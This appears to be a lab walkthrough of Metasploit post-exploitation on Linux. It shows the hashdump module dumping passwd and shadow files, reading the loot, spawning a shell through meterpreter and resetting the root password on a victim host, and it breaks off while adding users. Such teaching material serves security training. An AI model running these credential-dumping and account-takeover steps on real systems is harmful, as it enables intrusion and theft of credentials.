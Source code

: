 Linux 为 Linux 系统收集转储密码哈希

Post 模块转储 Linux 系统上所有用户的密码哈希

```
search hashdump
use post/linux/gather/hashdump
show options
set SESSION 3
run
loot
```

We have shadow file. This is where you'll find the encrypted passwords.

Let's open up the password file first. 

```
cat /root/.msf4/loot/20211127211028_hashdump_192.101.173.3_linux.passwd_734157.txt
```

This will list out all of the user accounts on the system. We only have the root user and a few other service accounts.

List out the contents of the shadow file.

```
cat /root/.msf4/loot/20211127211028_hashdump_192.101.173.3_linux.shadow_465878.txt
```

It lists out the user accounts. However, in the place of the password, which is directly after the username is specified, you can see that there's an asterisk. Which means, in this case, the target system does not have a password specified for any of the user accounts. And that makes sense in some scenarios, especially in the case of the service accounts.

However, just to show you that this indeed does work.

```
sessions 3
```

Open up a shell session.

```
meterpreter > shell
/bin/bash -i
```

Change the password of the root user, or rather, I will provide the root user with the password.

```
root@victim-1:/tmp# passwd root
password123
password123
```

We've changed the password for the root user.

And then we can add a few users.

`-m`: Specify that we want to create a home directory.
